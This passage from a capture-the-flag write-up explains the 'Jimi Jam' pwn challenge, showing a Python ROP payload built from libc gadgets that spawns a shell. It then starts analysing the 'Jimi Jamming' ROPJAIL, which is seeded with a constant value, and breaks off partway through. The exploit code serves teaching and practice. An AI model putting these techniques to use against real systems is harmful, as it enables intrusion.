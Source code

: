 Sadly these constraints are not satisfied so we have to do a little manual
grooming, setting relevant registers to zero.  
I simply chose the last one here.  
Therefor we need two more gadgets to set `%rsi` and `%rdx`.  
We can use ropper once again and will find them very quickly in `libc.so.6`.

The second part of the exploit may look like this now:  
```python  
gadget = libc_base + 0xe6e79  
print("gadget", hex(gadget))

pop_rsi = 0x0000000000027529 + libc_base  
pop_rdx_pop_r12 = 0x000000000011c371 + libc_base

io.readline()  
io.readline()

padding = b"B" * 8 + p64(base + 0x4000 + 0x78)  
payload = padding + \  
   p64(pop_rsi) + \  
   p64(0) + \  
   p64(pop_rdx_pop_r12) + \  
   p64(0) + p64(0) + \  
   p64(gadget)  
io.sendline(payload)

```

The full exploit is available [here](jimi_jam/x.py).

## Jimi Jamming (pwn)

Jimi Jamming was very similar to Jimi Jam though now requiring you to actually
jump into the `ROPJAIL`.  
So let's take closer look how the jail is constructed:

```c  
srand(0x138d5);  
posix_memalign((void **)&ROPJAIL,0x1000,0x1000);  
local_c = 0;  
while ((int)local_c < 0x1000) {  
   if ((local_c & 0xf) == 0) {  
     *(undefined *)((long)(int)local_c + (long)ROPJAIL) = 0xc3;  
   }  
   else {  
     iVar1 = rand();  
     *(undefined *)((long)(int)local_c + (long)ROPJAIL) = (char)iVar1;  
   }  
   local_c = local_c + 1;  
}  
```

We can see that the random number generator is seeded with a constant value
(`0x138d5`).  
After that `0x1000` pseudo-random bytes are placed inside the `ROPJAIL`.  
Furthermore every 16th byte is set to `0xc3` essentially forcing a `ret`
instruction.
